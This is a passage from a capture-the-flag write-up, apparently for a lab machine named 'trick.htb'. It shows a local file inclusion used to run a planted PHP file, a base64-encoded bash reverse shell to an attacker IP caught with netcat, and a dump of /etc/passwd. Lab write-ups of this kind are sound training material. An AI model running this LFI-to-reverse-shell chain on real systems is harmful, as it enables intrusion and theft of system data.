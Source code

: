 This returned an error. But I used the LFI to load the `/tmp/rce.php` file and execute a command.

I loaded

`http://preprod-payroll.trick.htb/index.php?page=/tmp/rce&cmd=id`

and it returned

`1 uid=33(www-data) gid=33(www-data) groups=33(www-data) 3 4 5 6 7 8 9 10`

I built a reverse shell call in base64.

```bash
$ echo 'bash  -i >& /dev/tcp/10.10.14.130/4444 0>&1 ' | base64
YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTMwLzQ0NDQgMD4mMSAK
```

And sent it to the server.

```
GET /index.php?page=/tmp/rce&cmd=echo YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTMwLzQ0NDQgMD4mMSAK | base64 -d | bash HTTP/1.1
Host: preprod-payroll.trick.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=4fkg0j3pttkh29sqcc1jnct07g
Upgrade-Insecure-Requests: 1
```

My netcat listener got the connection, and I was on the server.

```bash
$ nc -klvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.129.194.224 60430
bash: cannot set terminal process group (724): Inappropriate ioctl for device
bash: no job control in this shell

www-data@trick:~/payroll$ whoami
whoami
www-data
```



## Marketing Site

Once connected, I looked at `/etc/passwd` for other users on the box.

```bash
www-data@trick:~/payroll$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
bind:x:120:128::/var/cache/bind:/usr/sbin/nologin
michael:x:1001:1001::/home/michael:/bin/bash
```

